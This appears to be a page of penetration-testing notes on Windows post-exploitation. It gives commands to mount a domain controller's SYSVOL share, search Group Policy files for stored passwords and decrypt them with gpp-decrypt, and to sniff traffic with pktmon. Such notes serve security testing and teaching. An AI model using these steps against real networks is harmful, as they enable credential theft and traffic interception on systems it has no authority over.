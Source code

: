 > Windows Specific knowledge not covered in the other sections

A note: this information should be combined with [[Network Security/Post Exploitation]]

## On the client

> Approaches to gather information on the client.

### Domain context

> If the client is in a domain, Group Policies are applied and may contain information (historic data may remain on the `sysvol` share)

- Mount the share and check the files (has to be done on a shell not meterpreter!):

```cmd
# Mount
net use X: \\%LOGONSERVER%\SysVol  # LOGONSERVER is a domain controller

# Switch the volume
X:

# enter the GPO folder
cd domain.local\Policies
dir

# Search for xml files (may contain interesting things)
dir /s *.xml
```

Decrypt passwords contained in the GPO files on your kali machine:

```bash
gpp-decrypt <yourStolenEncryptedPasswordHere>
```


### Local Context

> Show local information of the client

- sniff for interesting network traffic with `pktmon` [SOURCE](https://www.scip.ch/?labs.20200820)

Probably requires administrator privileges, also the service may need to be startet via `sc start pktmon`

```powershell
pktmon comp list  # List interfaces for ID in later context
pktmon start --etw -c 1 -p 0 -k 0x010 -l multi-file  # c-> ID des interface

# windows 10 valid:
pktmon start --etw -c --comp 1 --pkt-size 0 --flags 0x010
pktmon stop  # otherwhise file is not written if in circular mode...

# morph to pcap
pktmon pcapng file.etl -o file.pcapng
```
